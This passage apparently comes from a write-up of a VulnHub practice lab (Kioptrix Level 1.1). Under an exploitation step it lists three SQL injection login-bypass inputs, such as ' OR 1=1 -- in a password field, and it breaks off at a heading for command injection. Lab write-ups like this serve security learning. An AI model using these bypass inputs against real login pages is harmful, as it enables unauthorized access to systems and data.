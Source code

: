 ![login](/posts/Vlunhub/100Days/Day02_Kioptrix_Level_1_1/httpport.png)

Now The Exploitation Begin 💣


### Step 3: Explotation

#### Step 3.1: SQL Injection


![SQL Injection](/posts/Vlunhub/100Days/Day02_Kioptrix_Level_1_1/sqli.png)

- Here Different Types Inputs Are Success.
  - Username: `admin` Password: `' OR 1=1 -- `
  - Username: `admin ' -- ` Password: `-`
  - Username: `admin' OR 1=1 -- ` Password: `-`


#### Step 3.2: Command Line Injection
